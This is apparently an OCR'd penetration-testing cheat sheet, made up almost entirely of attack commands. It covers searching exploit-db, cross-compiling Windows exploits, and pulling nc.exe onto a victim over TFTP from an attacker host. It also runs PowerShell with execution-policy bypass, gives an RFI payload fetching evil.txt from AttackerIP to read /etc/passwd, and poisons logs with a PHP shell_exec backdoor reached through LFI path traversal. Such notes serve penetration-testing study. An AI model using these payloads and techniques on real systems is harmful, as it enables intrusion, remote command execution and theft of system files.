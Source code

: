 Finding Public Exploits:  
www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

**Compiling** .  
i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux .   
wine exploit.exe #Run Windows executable on Linux

Convert Python Exploit to Win Exe  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
python pyinstaller.py —onefile ms11-080.py

**File Transfers**  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code .  
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI   
#Contaminate the web server log with a PHP backdoor .  
$ nc -nv TargetIP 80  
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
